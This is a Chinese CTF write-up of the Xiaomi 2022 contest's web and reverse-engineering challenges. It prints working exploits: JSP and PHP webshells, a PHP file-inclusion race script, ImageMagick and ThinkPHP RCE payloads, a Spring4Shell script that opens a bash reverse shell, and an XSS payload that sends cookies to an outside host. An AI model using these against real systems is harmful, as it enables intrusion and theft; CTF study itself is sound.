# 小米CTF2022安全赛道writeup

> 参加了下CTF比赛，最终获得了第五名的成绩。奖品是个电烤箱，很喜欢的一个奖品因为冬天烤🍠真的好棒。
> 做CTF基本上就是边学边做，这篇文章主要记录下过了的CTF题目，以及一些解题思路。

## re-1 maze

使用IDA pro反编译伪代码



大概逻辑是，输入1234组成的20位字符串。根据题目描述——迷宫，可以将v5和v6理解为横坐标和纵坐标，1234表示下上右左。需要从左上走到右下。
迷宫的地图在box中定义，1是不可通过，2是可以通过。



转换成地图（手绘了一下，大概看一下）


按照步骤行走，最终得到flag

```text
flag{13113111332232331111}
```

## web-1 签到题

签到题

打开控制台找到注释里的flag


## web-2 你会抓包吗

请求响应头里找到flag



## web-3 爆破弱口令

6位密码很慢，花1积分买个hint，难度立即降低。

爆破代码

```python
import requests

url = "https://httpbasic-ctfd.dun.mi.com/"

payload = {}
headers = {
    'authority': 'httpbasic-ctfd.dun.mi.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'zh-CN,zh;q=0.9,en;q=0.8',
    # 'authorization': 'Basic YWRtaW46OTg3NjU0',
    'cache-control': 'max-age=0',
    'cookie': 'xx', # TODO 赋值cookie
    'sec-ch-ua': '"Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"macOS"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'
}

username = 'admin'
for passwd in range(300, 999):
    passwd_str = "{0:06d}".format(passwd * 1000 + 672)
    response = requests.request("GET", url, headers=headers, data=payload, auth=(username, passwd_str))

    print(passwd_str, response.status_code)
    print(response.text)
    if response.status_code != 401:
        break
```

## web-4 手速要快

网页会自动跳转，使用postman请求，在源码中看到flag。控制台保留日志跳转也可以。


## web-5 Actuator配置不当会发生什么呢

访问spring默认actuator地址，在env中找到flag。

https://actuator-ctfd.dun.mi.com/actuator/env



## web-6 接口文档在哪儿呢

猜测接口文档地址，spring比较常用的接口文档服务还是swagger，但是没有配置swagger-ui。

https://api-doc-ctfd.dun.mi.com/v2/api-docs

往下找有个flag-controller，post请求，需要一个boolean参数。



构造请求，获取flag



## web-7 破解uid

简单试了一下，uid范围大概是1-99，写个程序遍历一下，看看输出什么

```python
import requests

url = "https://dior-ctfd.dun.mi.com/user?uid={}"

payload = {}
headers = {
    'authority': 'dior-ctfd.dun.mi.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'cache-control': 'max-age=0',
    'cookie': 'xxx', # TODO cookie
    'sec-ch-ua': '"Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"macOS"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'
}
for uid in range(1, 100):
    response = requests.request("GET", url.format(uid), headers=headers, data=payload)
    print(uid, response.text)
```

在uid=77的时候发现flag



## web-8 听说你也了解HTTP

先根据提示一步一步的构造请求，到最后一步需要本地IP才能访问，通过header伪造本地IP。

```shell
curl --location --request POST 'https://httpheader-ctfd.dun.mi.com/?flag=i_want_it' \
--header 'authority: httpheader-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'cookie:xxx TODO cookie' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: application/json' \
--header 'X-Forwarded-For: 127.0.0.1' \
--header 'Proxy-Client-IP: 127.0.0.1' \
--header 'Referer: 127.0.0.1' \
--header 'X-Forwarded-For: 127.0.0.1' \
--header 'X-Forwarded: 127.0.0.1' \
--header 'Forwarded-For: 127.0.0.1' \
--header 'Forwarded: 127.0.0.1' \
--header 'X-Forwarded-Host: 127.0.0.1' \
--header 'X-remote-IP: 127.0.0.1' \
--header 'X-remote-addr: 127.0.0.1' \
--header 'True-Client-IP: 127.0.0.1' \
--header 'X-Client-IP: 127.0.0.1' \
--header 'Client-IP: 127.0.0.1' \
--header 'X-Real-IP: 127.0.0.1' \
--header 'Ali-CDN-Real-IP: 127.0.0.1' \
--header 'Cdn-Src-Ip: 127.0.0.1' \
--header 'Cdn-Real-Ip: 127.0.0.1' \
--header 'CF-Connecting-IP: 127.0.0.1' \
--header 'X-Cluster-Client-IP: 127.0.0.1' \
--header 'WL-Proxy-Client-IP: 127.0.0.1' \
--header 'Proxy-Client-IP: 127.0.0.1' \
--header 'Fastly-Client-Ip: 127.0.0.1' \
--header 'True-Client-Ip: 127.0.0.1' \
--form 'flag="i_want_it"'
```

不知道哪个参数管用，一股脑全部设置成127.0.0.1吧

## web-9 被清空的文件

下载.bash_history文件，从文件中找到flag


## web-10 一个安全配置引发的血案

该题使用 Tomcat 远程代码执行漏洞分析（CVE-2017-12615）

> CVE-2017-12615漏洞利用需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。
> Apache Tomcat默认开启PUT方法，org.apache.catalina.servlets.DefaultServlet的readonly默认为true，而且默认没有在conf/web.xml里写，需要手工添加并且改为false，才可以测试。
> 主要在conf文件夹的web.xml文件中添加readonly参数并设置值为false：

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

根据要求，构造PUT请求，上传一句话，然后蚁剑连接，从目录中找到flag

```shell
curl --location --request PUT 'https://tomcat-ctfd.dun.mi.com/sumy123123.jsp/' \
--header 'authority: tomcat-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cookie: xxxx TODO cookie' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: text/plain' \
--data-raw '<%
  if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();
    int a = -1;
    byte[] b = new byte[1];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
      out.print(new String(b));
    }
    out.print("</pre>");
  }
%>'
```

## web-11 就一个上传操作能有啥问题

先上传一个图片简单的试了下，发现文件被放在upload目录下，并且页面可以访问到。而且文件名还是上传文件的文件名。文件类型只支持.jpg|.png|.gif，但是这个类型判断在前端页面判断。想办法绕过文件类型的判断，上传一句话，然后蚁剑连接，获取flag。

构造一句话的php文件

```php
<?php @eval($_POST['flag']) ?>
```

上传文件，页面下断点，把类型判断改掉



```javascript
allow_ext=".php"
```

蚁剑连接完毕。

## web-12 只有本人才能查看哦

我也很了解HTTP

```shell
curl --location --request GET 'http://10.38.204.122/' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'Cache-Control: max-age=0' \
--header 'Connection: keep-alive' \
--header 'Upgrade-Insecure-Requests: 1' \
--header 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'X-Forwarded-For:  localhost' \
--header 'Referer:  http://localhost/'
```

## web-13 写个phpinfo能有多大风险

这个题目卡了好久，通过url判断考查的是php文件包含，构造filter抓取了index.php的文件，发现特别直白。

https://include-ctfd.dun.mi.com/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

```php
<?php
if ($_GET[page]) {
    include $_GET[page];
} else {
    include "index.html";
}
```

但是 `php://input` 协议没有，果然没有这么简单。

说是有个phpinfo，找了一圈在info.php找到了。

```text
allow_url_fopen=On
allow_url_include=Off
```

可以看到allow_url_include是off，怪不得php://input无效。

百度找到一个smb加载远程文件的方法，但是只针对Windows环境，从phpinfo中看出这明显是一个linux环境。

继续百度，找一个session上传进程漏洞利用。当session.upload_progress.enabled开启的时候会将上传文件的进度序列化保存到本地文件中，
这个文件的路径和文件名可以通过猜测获得。于是通过包含这个进度文件，能够实现执行自定义命令的效果。

但是这个过程极快，需要一个脚本不停的尝试。

```python
import requests
import time
import threading

host = 'https://include-ctfd.dun.mi.com/'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

headers = {
    'Cookie': 'TODO miduncookie; PHPSESSID=' + PHPSESSID}

# data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php system('/bin/bash -i >& /dev/tcp/10.167.90.69/3000 0>&1');?>"}
data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo `ls -al /home/mywww/flag_is_here`;?>"}


# data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo `cat /home/mywww/flag_is_here`;?>"}

def creatSession():
    while True:
        files = {
            "upload": ("tmp.jpg", open("/etc/passwd", "rb"))
        }
        # data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo md5('1');?>"}

        r = requests.post(host + "/info.php", files=files, headers=headers, data=data)
        # print(r.text)


fileName = "/var/lib/php/sessions/sess_" + PHPSESSID

if __name__ == '__main__':

    url = "{}index.php?page={}".format(host, fileName)
    t = threading.Thread(target=creatSession, args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url, headers=headers)
        print("[/] " + res.text)
        if "c4ca4238a0b923820dcc509a6f75849b" in res.text:
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```

开启两个线程，一个线程上传文件，另一个线程访问index.php获取包含的结果。

经过不断的尝试和猜测路径，最终在/home/mywww/flag_is_here发现flag。

## web-15 魔法的力量

该题利用了ImageMagick的CVE-2016-3714漏洞。

ImageMagick流行的原因之一，就是它功能强大，可以处理很多情况，而有一个功能delegate，作用是调用外部的lib来处理文件。调用外部lib就是执行system命令，从而产生命令执行漏洞。

解析https图片的时候，使用了curl命令将其下载，payload只需使用反引号或闭合双引号，就可以执行任意命令。

将一下内容保存为xxx.png，上传既可触发列目录。

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/1.jpg"|ls -al")'
pop graphic-context
```

从文件名中可以找到flag。

## web-16 你听说过Thinkphp吗

听说过

网页看出thinkphp版本是thinkphp 5.0.23

推荐一个网站查看thinkphp的漏洞 https://www.exploit-db.com/ ，在网站里搜索thinkphp，找到

https://www.exploit-db.com/exploits/46150

这里没有开启debug模式，我们选择thinkphp 5.0.23(完整版)提到的内容

```text
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
```

构造请求执行命令

```php
curl --location --request POST 'https://thinkphp5-ctfd.dun.mi.com/index.php?s=captcha' \
--header 'authority: thinkphp5-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'cookie: TODO cookie'\
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode '_method=__construct' \
--data-urlencode 'filter[]=system' \
--data-urlencode 'method=get' \
--data-urlencode 'server[REQUEST_METHOD]=cat AAA.php'
```

感谢无名氏提前放置的一句话，这里借花献佛，直接无耻的用蚁剑连接了。

翻找目录找到flag。

## web-17 简陋的留言板

xss

基本上没有过滤任何内容，这里使用一个重定向将cookie补充在路径中转发过去。需要一个服务查看访问的路径。

```javascript
<script>
setTimeout(()=>{
document.location="http://10.167.90.69:1337/xss/"+encodeURIComponent(document.cookie).substring(0, 255)
}, 1000)
</script>
```

预留1s的时间，考验你点提交给管理员按钮的手速。

管理员访问链接后可以看到cookie，将获取cookie写入浏览器，重新留言即可看到flag。

## web-18 极简的Spring

CVE-2022-22965：Spring Framework远程代码执行漏洞

github上找了一个exploit稍微修改了一下，修改成反弹shell

```python
import requests
import argparse
from urllib.parse import urljoin
import base64


def make_runtime_payload(cmd, host=None, port=None):
    if host and port:
        bash_payload = base64.b64encode(f"bash -i >& /dev/tcp/{host}/{port} 0>&1".encode())
        # https://ares-x.com/tools/runtime-exec/
        payload = "bash -c {echo," + bash_payload.decode("utf-8") + "}|{base64,-d}|{bash,-i}"
        payload = f'"{payload}"'
        return payload
    else:
        payload = f'"{cmd}"'
        return payload


def url_encode(text):
    return text.replace('/', '%2F').replace(' ', '%20').replace('=', '%3D').replace('&', '%26').replace('"',
                                                                                                        "%22").replace(
        "'", "%27").replace('>', "%3E").replace('<', "%3C").replace('#', "%23").replace('?', "%3F").replace('+', "%2B")


def exploit(url, command, shell_name, password='1337'):
    print(f"418 - Trying to exploit {url}")
    headers = {"suffix": "%>//",
               "c1": "Runtime",
               "c2": "<%",
               "DNT": "1",
               "Content-Type": "application/x-www-form-urlencoded",
               "Cookie": "miduncookie" # TODO cookie
               }
    # https://github.com/craig/SpringCore0day original exploit
    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{url_encode(password)}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20=%20%25%7Bc1%7Di.getRuntime().exec({url_encode(command)}).getInputStream();%20int%20a%20=%20-1;%20byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;%20while((a=in.read(b))!=-1)%7B%20out.println(new%20String(b));%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix={shell_name}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

    go = requests.post(url, headers=headers, data=data, timeout=15, allow_redirects=False, verify=False)
    shellurl = urljoin(url, f'{shell_name}.jsp')
    shellgo = requests.get(shellurl, timeout=40, allow_redirects=False, verify=False)
    if shellgo.status_code == 200:
        print(f"{shellgo.status_code} - Successfuly exploited, access in: {shellurl}?pwd={url_encode(password)}")
    else:
        print(f"{shellgo.status_code} - {shellurl} is'n work :(")


def main():
    # parser = argparse.ArgumentParser(description='')
    # parser.add_argument('-f', '--file',help='File with a list of URLs (reverse-shell dont works here)', required=False)
    # parser.add_argument('-u', '--url',help='Just one target URL', required=False)
    # parser.add_argument('-c', '--command',help='Command to execute', required=False)
    # parser.add_argument('--host', help='Host to connect if you want a reverse shell', required=False)
    # parser.add_argument('--port', help='Port to connect if you want a reverse shell', required=False)
    # parser.add_argument('--shell_name', help='Name of the shell', required=False, default="b1g0uS")
    # parser.add_argument('--password', help='Password for shell', required=False, default='1337')
    # args = parser.parse_args()

    file_arg = "sumy123123123123123123123"
    dir_arg = "webapps/ROOT"
    url_arg = "https://spring-ctfd.dun.mi.com/"
    command_arg = None
    shell_name_arg = "sumy_123"
    password_arg = "1423"
    host_arg = '10.167.90.69'
    port_arg = '3000'

    if url_arg:
        if command_arg:
            exploit(url_arg, make_runtime_payload(command_arg), shell_name_arg, password=password_arg)
        elif host_arg and port_arg:
            exploit(url_arg, make_runtime_payload(None, host_arg, port_arg), shell_name_arg, password=password_arg)


if __name__ == '__main__':
    print("SPRING CORE RCE. :)")
    main()
```

不知道怎么搞得，把服务打挂了一次。。。好像有内存泄露。。。

## web-19 为什么不能用默认配置呢

nacos权限绕过漏洞(CVE-2021-29441)

在AuthFilter过滤器中存在如下条件语句：

useragent请求头如果以Constants.NACOS_SERVER_HEADER开头，则直接放通，执行后续的业务处理，而Constants.NACOS_SERVER_HEADER定义的正是"Nacos-Server"。

```shell
curl --location --request GET 'https://nacos-ctfd.dun.mi.com/nacos/v1/auth/users?pageNo=1&pageSize=9' \
--header 'authority: nacos-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'TODO miduncookie' \
--header 'if-modified-since: Fri, 29 Apr 2022 02:20:32 GMT' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Nacos-Server'
```

有了user-agent: Nacos-Server之后，可以调用接口获取当前用户、添加用户。添加用户后，登录系统可以从系统的配置中获取flag。

## web-20 记日志能有什么问题呢

猜测题目应该是把输入的用户名密码记录到日志中。

